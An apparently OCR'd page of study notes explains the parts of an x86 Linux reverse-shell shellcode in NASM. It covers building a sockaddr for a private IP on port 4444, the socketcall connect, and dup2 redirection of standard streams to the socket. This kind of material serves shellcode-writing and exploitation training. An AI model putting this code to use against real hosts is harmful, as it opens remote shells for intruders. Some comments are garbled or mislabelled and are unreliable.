 			addr.sin_addr.s_addr = htonl("192.168.230.169"); ,ip address to make a connection to. htonl is to convert the unsigned integer hostlong from host byte order to network byte order

		NASM

			mov edi,eax

       			;socket struct defining variables
        		push edx
        		push edx         
              		push 0xa9e6a8c0  #ip address
        		push word 0x5c11 #port number
        		push word 0x2    #af_inet value
        		mov esi,esp
              		xor eax,eax
              		xor ebx,ebx
        		;socket bind call
        		push 0x10    #addrlen
        		push esi     #structure address
        		push edi     #sockfd
        		mov ecx,esp  #connect arguments address
        		mov al,0x66  # socketsyscall 
        		mov bl,0x3   # connect function in socketcall
        		int 0x80


        		After the socket creation sys call eax contain the socket file descriptor , it is being copied to edi

        		EAX 0x66 , 102 socketcall
         		EBX 0x3  , SYS_CONNECT functioncall

			ie		int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);

			Parameters are pushed on to the stack in reverse order
					
			length of ip address is pushed pushed first ie 0x10 (addrlen)
			structure parameters (esi has the address)
				: ip address 0xa9e6a8c0 ie 192.168.230.169 used ,https://www.browserling.com/tools/ip-to-hex  c0.a8.e6.a9 0xa9e6a8c0 = htonl()
				: port number 0x5c11 hex(octal(4444)) = 0x115c , htons = 0x5c11
				: AF_INet ie 0x2

			file descriptor ie (edi) pushed on to the stack										  		
                   	ECX has the address location to parameters for connect call 

			
	>Redirect STDIN, STDOUT and STDERR to the socket once a connection is made
       			
			Redirect/Duplicate stdin,stdout,stderr to the socket process	

       			This system call create a copy of the file descriptor oldfd.dup2 makes newfd be the copy of oldfd. 0 represents stdin ,1 stdout and 2 stderror respectively. This is done basically to transfer input,output and error to the socket connection(socket descriptor)

       		 	dup2(fd, 0); // stdin
    			dup2(fd, 1); // stdout
    			dup2(fd, 2); // stderr
